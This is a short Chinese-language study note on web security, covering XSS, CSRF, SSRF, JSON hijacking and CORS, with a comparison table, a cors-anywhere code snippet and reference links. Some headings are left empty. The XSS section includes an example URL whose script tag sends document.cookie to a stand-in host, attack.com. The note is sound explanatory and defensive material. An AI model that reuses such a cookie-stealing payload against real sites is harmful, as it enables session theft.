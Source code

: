 ```yaml
---
title: "網頁安全筆記"
date: 2019-09-02T05:44:11.000Z
summary:
---
```


## XSS

- Cross-site scripting
- 利用動態產生內容（ex. 輸入欄位）的網頁漏洞，注入惡意腳本的攻擊手法
- 例如使用短網址包覆帶有惡意腳本的網址：
  `http://app.com/?name=?<script>...attack.com/bad.php?data=document.cookie;</script>`
- 攻擊者便可取得使用者的 Cookie，並藉此盜用相關資料
- 可以針對特殊文字進行處理 (例如 `<`、`&`) 防止攻擊。

## CSRF

- Cross-site request forgery（跨站請求偽造）
- 利用網頁應用本身的漏洞，進行原定以外處理的攻擊手法
- 例如使用短網指包覆指定行為的網址：`http://app.com/post/`
- 導致使用者身份被盜用，從而進行非原定的行為，例如留下犯罪宣言的訊息
- 可以在 request 裡加入 token 驗證這個行為是否真的來自該使用者
- [これで完璧！今さら振り返る CSRF 対策と同一オリジンポリシーの基礎](https://qiita.com/mpyw/items/0595f07736cfa5b1f50c)

## XSS 和 CSRF 的差異

| 觀點     | XSS                           | CSRF                       |
| -------- | ----------------------------- | -------------------------- |
| 漏洞     | 網頁應用程式                  | 網頁應用程式               |
| 執行機制 | 造訪有問題的網址              | 造訪有問題的網址           |
| 執行源頭 | 網頁瀏覽器 (Client)           | 網頁伺服器 (Server)        |
| 執行內容 | JavaScript 所能執行的任意內容 | 網頁應用程式內所定義的處理 |
| 執行前提 | 無                            | 受害者需先登入網頁應用程式 |

## SQL Injection

## ClickJacking

## Open Redirect

## DOS

## Insecure Direct Object Reference Vulnerability

## JSON Hijacking

- [Json Hijacking 簡介 « 關於網路那些事...](https://adon988.logdown.com/posts/7820118-introduction-to-json-hijacking)

## SSRF

- Server-side request forgery
- 利用公開網路與內部網路溝通的漏洞，進行繞過權限認證的攻擊方式

## [同源政策（Same-Origin Policy）](https://developer.mozilla.org/zh-TW/docs/Web/Security/Same-origin_policy)

### 什麼是 CORS（Cross-Origin Resource Sharing，跨來源資源共用）？

### 解決方案

#### 從 API 後端開放權限

#### CORS-anywhere

```javascript
// use cors-anywhere to fetch api data
const cors = "https://cors-anywhere.herokuapp.com/";
// origin api url
const url = "https://tw.rter.info/capi.php?=1568944322585";

// fetch api url by cors-anywhere
axios.get(`${cors}${url}`).then(
  (response) => {
    const msg = response.data;
    document.body.innerHTML = JSON.stringify(msg);
  },
  (error) => {}
);
```

### 參考文章

- [\[教學\] CORS 是什麼? 如何設定 CORS? | Shubo’s Notes](https://shubo.io/what-is-cors/)
- [輕鬆理解 Ajax 與跨來源請求](https://blog.techbridge.cc/2017/05/20/api-ajax-cors-and-jsonp/)
- [原來 CORS 沒有我想像中的簡單](https://blog.techbridge.cc/2018/08/18/cors-issue/)
- [和 CORS 跟 cookie 打交道](https://medium.com/d-d-mag/%E5%92%8C-cors-%E8%B7%9F-cookie-%E6%89%93%E4%BA%A4%E9%81%93-dd420ccc7399)
- [新的取消請求方式 - AbortController | 半熟前端](https://blog.kalan.dev/abort-controller/)
- [这波跨域不亏 · Issue #9 · xixigiggling/my-ice-cream](https://github.com/xixigiggling/my-ice-cream/issues/9)

## 相關文章

- [安全な Web サイトのつくりかた　ざっくりまとめ part1](https://qiita.com/E-46/items/93199f38bdacd6b6076a)
- [安全な Web サイトのつくりかた　ざっくりまとめ part2](https://qiita.com/E-46/items/aa43b6a01de8ab205591)
- [個人開発でも最低限やっておくべきインフラレベルでのセキュリティ対策](https://qiita.com/uichi/items/c34536b66101e9440cf2)
- [Web セキュリティ覚書 : "HTTPS" 編 [ 初学者向け ]](https://qiita.com/Tsutou/items/cea87dbab0f3d0080422)
- [Web セキュリティ覚書 : "攻撃" 編 [ 初学者向け ]](https://qiita.com/Tsutou/items/4fd498f8ab2638bd5650)
- [Same Origin Policy 同源政策 ! 一切安全的基礎](https://medium.com/@jaydenlin/same-origin-policy-%E5%90%8C%E6%BA%90%E6%94%BF%E7%AD%96-%E4%B8%80%E5%88%87%E5%AE%89%E5%85%A8%E7%9A%84%E5%9F%BA%E7%A4%8E-36432565a226)
- [3 分でわかる XSS と CSRF の違い](https://qiita.com/wanko5296/items/142b5b82485b0196a2da)
- [SSRF 基礎 - Speaker Deck](https://speakerdeck.com/hasegawayosuke/ssrfji-chu)
- [URL の取り扱いには要注意！ SSRF の攻撃と対策 | yamory Blog](https://yamory.io/blog/about-ssrf/)
